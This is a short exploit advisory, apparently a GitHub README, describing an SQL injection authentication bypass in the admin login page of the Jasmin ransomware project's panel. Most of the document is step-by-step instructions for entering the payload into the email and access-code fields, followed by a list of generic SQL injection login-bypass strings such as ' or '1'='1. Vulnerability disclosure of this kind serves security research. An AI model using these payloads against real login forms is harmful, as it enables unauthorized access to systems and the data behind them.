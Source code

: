 # Jasmin-Ransomware-SQL-Login-Bypass
An SQL login bypass vulnerability exists in the administration panel of the Jasmin ransomware application.

Exploit Title: Jasmin Ransomware SQL Injection Login Bypass
<br>
Google Dork: N/A
<br>
Date: 05-03-2025
<br>
Exploit Author: Buğra Enis Dönmez
<br>
Vendor Homepage: https://github.com/codesiddhant/Jasmin-Ransomware
<br>
Software Link: https://github.com/codesiddhant/Jasmin-Ransomware
<br>
Version: N/A
<br>
Tested on: Windows
<br>
<br>
How to exploit :

--> Open Admin Panel Through : http://localhost/login.php
<br>
<br>
--> Enter the SQL Injection Auth Bypass Payload to Email like : '=' 'or'
<br>
<br>
--> And to Access Code, Enter the same SQL Injection Authentication Bypass Payload : '=' 'or'
<br>
<br>
--> Press Authorize
<br>
<br>
--> Congratz, you're in
<br>
<br>
--> SQL Injection Authentication Bypass Payload : '=' 'or'
<br>
<br>
--> Payloads Can be use :
<br>
<br>
' or '1'='1
<br>
<br>
' or ''='
	
'=' 'or'

' OR '1'='1';-- -

' or 1 -- -
